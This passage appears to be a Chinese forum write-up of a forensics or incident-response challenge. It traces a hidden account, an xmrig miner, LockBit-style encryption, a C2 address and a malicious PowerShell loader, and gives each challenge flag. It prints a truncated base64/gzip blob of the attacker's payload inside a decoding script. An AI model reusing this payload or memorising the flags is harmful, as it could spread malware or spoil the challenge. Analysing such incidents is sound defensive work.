

2.0.6.png (795.88 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5NHw3N2I1MzIzNHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5NHw3N2I1MzIzNHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传



2.0.7.png (684.87 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5NXxiMjhkZmVlYXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5NXxiMjhkZmVlYXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传

搜索后缀名得知为lockbit勒索家族


2.0.8.png (61.23 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5NnxkNGUzMGVhYXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5NnxkNGUzMGVhYXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传

### 2.1 攻击者创建隐藏账户的时间

查看原系统`Security.evtx`日志文件



2.1.1.png (116.44 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5N3w2ZTM2ODY1M3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5N3w2ZTM2ODY1M3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传



2.1.2.png (85.87 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5OHwxZjZkZTE3YnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5OHwxZjZkZTE3YnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传

```
flag{2024/12/16 15:24:21}
```

### 2.2 恶意文件的名称



2.2.1.png (917.82 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5OXw4YWJkNDE4MXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5OXw4YWJkNDE4MXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传

```
flag{xmrig.exe}
```

### 2.3 外联地址

在恶意文件的配置文件中可以看到外联的url为“`sierting.com`”



2.3.1.png (667.86 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUwMHw1YmNkN2MxYnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwMHw1YmNkN2MxYnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

dns解析为“`203.107.45.167`”



2.3.2.png (42.13 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc0ODUwMXwyMWU0ODU4ZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwMXwyMWU0ODU4ZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

```
flag{203.107.45.167}
```

### 2.4 数据库修复

使用数据库修复工具“`D-Recovery SQL Server`”进行修复



2.4.1.png (330.59 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODUwMnw4ZmIyYjNlNnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwMnw4ZmIyYjNlNnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

选择被加密的数据库文件，在”选择参照`mdf`文件“中选择”【非题目】题mssql-备份数据库（可能会用到）“中的纯表结构文件



2.4.2.png (176.19 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODUwM3w4ODg0M2EyMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwM3w4ODg0M2EyMHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传



2.4.3.png (289.29 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODUwNHw2ODg4MzI0Y3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwNHw2ODg4MzI0Y3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

```
flag{E4r5t5y6mhgur89g}
```

### 2.5 逆向恶意powoshell的md5值

可以在“`Windows PowerShell.evtx`”日志文件中看到PowerShell执行情况



2.5.1.png (138.43 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODUwNXxhMmVlZTNiZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwNXxhMmVlZTNiZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

可以看到攻击者在2024/12/16 15:23:01执行的PowerShell其中的

`New-Object` `System.IO.MemoryStream`：用于 Base64 编码的字符串创建内存流。

`System.IO.Compression.GzipStream`：解压缩 Gzip 编码的数据流。

`ReadToEnd()`：读取并执行解压后的数据内容。



2.5.2.png (113.46 KB, 下载次数: 4)

[href="forum.php?mod=attachment&aid=Mjc0ODUwNnxjZDFkODk2M3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODUwNnxjZDFkODk2M3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:55 上传

解密脚本

```
import base64
```


```python
base64_data = '''H4sICBPmW2cAA3Rlc3QudHh0ALVXbXOiSBD+7q+gtqwSKkYwcXNuqrbqQFExkpWgGHWtKwIDzDKAC0OU7O1/vx58SVJJdvfuaucLzkx3T8/TT3ePXh47FCcxR2ch963C7cfYTu2I46uhpNe5anG3Fo5bVe9sw33k+KW8XneTyMbx6vKyk6cpiulu3ugjKmcZiu4IRhkvcH9zswCl6PTT3RfkUO4bV/2r0SfJnU32YkXHdgLEncqxy/ZGiWMzpxrmmmDK1z5/rgnL0+aqoX7NbZLxNbPIKIoaLiE1gfsusAMnxRrxNR07aZIlHm3McHx+1pjGme2ha7B2j3REg8TNakLleJcU0TyNyysxGzsJvgY/x2niyK6boiyr1bkls75crf7kl/ujb/KY4gg1tJiiNFmbKL3HDsoaAzt2CbpB3gq0TJri2F8JAojdJyHiq3FOSJ37N2b4a7Q5APerSvxTJZAa01SoQzRfXlNP3JygnWLtFT8ZAQQYexIIle+VinegDLEC7f1L0hznh7EsNxA4y4+TDJe6Hzmpzulwrk2TtIBpdZLmSFgdoeaq9+2rdv0XjTUPmqAXL2Y6LC2tBLuro/6TqFfXbZcwibcZ3EUejlG3iO0IOweS8q/FAnkElXA0DmLX4B5f228gt4sI8m3K4GWUeKGmRpgedZUcExelsgPxzMArCLXw3JldxPiaFusoAuh2c+Bo1YPUQAfpfToUh9PZHIRqHWJnWZ0b55CbTp0zkU2QW+fkOMP7LTmnSfmz9uiunhOKHTujB3Mr4Tma+1M7SZzRNHcgpoDAxFwjB9uEAVLnBthFSmFi/3B67VU4OjYhkDRg6R7CASsM